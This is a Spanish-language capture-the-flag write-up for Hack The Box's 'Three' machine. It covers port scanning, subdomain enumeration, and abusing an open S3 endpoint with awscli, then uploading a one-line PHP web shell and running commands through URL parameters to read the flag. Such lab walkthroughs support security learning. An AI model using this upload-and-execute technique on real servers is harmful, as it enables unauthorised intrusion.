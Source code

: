 ```yaml
---
title: Three
date: 2025-04-88 00:00:00 +0200
categories: [writeup, hackthebox]
tags: [hackthebox, responder]     
image:
    path: https://www.hackthebox.com/images/logo-htb.svg
    alt: Hack The Box
---
```

## Three
De nuevo una serie de tareas para ir resolviendo la máquina. Esta vez parece algo relacionado con s3 de amazon.

Task 1

How many TCP ports are open?
```shell
└─$ nmap -p- -vv -T4 10.129.229.84                    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-07 17:20 EDT
Initiating Ping Scan at 17:20
Scanning 10.129.229.84 [4 ports]
Completed Ping Scan at 17:20, 0.08s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:20
Completed Parallel DNS resolution of 1 host. at 17:20, 13.00s elapsed
Initiating SYN Stealth Scan at 17:20
Scanning 10.129.229.84 [65535 ports]
Discovered open port 80/tcp on 10.129.229.84
Discovered open port 22/tcp on 10.129.229.84
```
>2

Task 2

What is the domain of the email address provided in the "Contact" section of the website?

>thetoppers.htb

Task 3

In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?
> /etc/hosts

Task 4

Which sub-domain is discovered during further enumeration?

Antes de continuar con esta tarea tuve que instalar seclist en la máquina Kali25 que estoy utilizando para hacer los retos de HTB. 
Luego podremos valernos de gobuster para buscar 
```
apt install seclist
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://thetoppers.htb
```

Sin embargo no tuve resultados. Encontré una explicación en [Reddit](https://www.reddit.com/r/hackthebox/comments/11bsuxt/can_find_the_s3_subdomain_that_i_am_supposed_to/?tl=es-es&rdt=58488) Algo malo pasa con esta máquina? Es posible porque me dan pistas cuando hago spawn... 

Please wait for a few minutes until all machine related services are up and running.
Expect to see {"status":"running"} when visiting s3.thetoppers.htb

> s3.thetoppers.htb

Task 5

Which service is running on the discovered sub-domain?

Como es lógico sería inútil usar nmap contra un dominio en amazon, pero es posible que una mala configuración de la máquina nos permita el acceso
volvemos a configurar /etc/hostname, esta vez con el subdomino por delante. 

```shell
10.129.234.148 s3.thetoppers.htb
```
Ahora visitamos la web http://s3.thetoppers.htb/ parece que la instanancia muestra un status 
```
{"status": "running"}
```
> amazon s3

Task 6

Which command line utility can be used to interact with the service running on the discovered sub-domain?
> awscli

Task 7

Which command is used to set up the AWS CLI installation?
``` shell
sudo apt install awscli
```
> aws configure

Task 8 

What is the command used by the above utility to list all of the S3 buckets?

Aqui tenemos que configurar el cliente de aws antes de poner usarlo contra la instancia de s3
``` shell
└─$ aws configure                               
AWS Access Key ID [None]: hacked
AWS Secret Access Key [None]: hacked
Default region name [None]: hacked
Default output format [None]: hacked
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2025-04-08 16:27:00          0 .htaccess
2025-04-08 16:27:00      11952 index.php

```
> aws s3 ls 

Task 9

This server is configured to run files written in what web scripting language?
> php

Submit Flag

Vamos a codificar una pequeña shell en PHP que al pasarle parámetros los ejecute como instrucciones del lado del servidor

``` php
<?php
    system($_GET["cmd"]);
?>
```
Ahora lo subimos a la instancia de s3 
``` shell
└─$ aws --endpoint=http://s3.thetoppers.htb s3 cp hello.php s3://thetoppers.htb  
upload: ./hello.php to s3://thetoppers.htb/hello.php              
```
Ahora desde el navegador deberíamos poder ejecutar comandos en la instancia para encodear los comandos en un formato que no rechaze el servidor te puedes valer de URL encoders que hay online de forma que **ls /var/www** se convierte en **ls%20%2Fvar%2Fwww**                                                     

```
http://thetoppers.htb/hello.php?cmd=ls%20%2Fvar%2Fwww

flag.txt html 

http://thetoppers.htb/hello.php?cmd=cat%20%2Fvar%2Fwww%2Fflag.txt%0A

```

Submit root flag [achivement](https://www.hackthebox.com/achievement/machine/2336390/489)

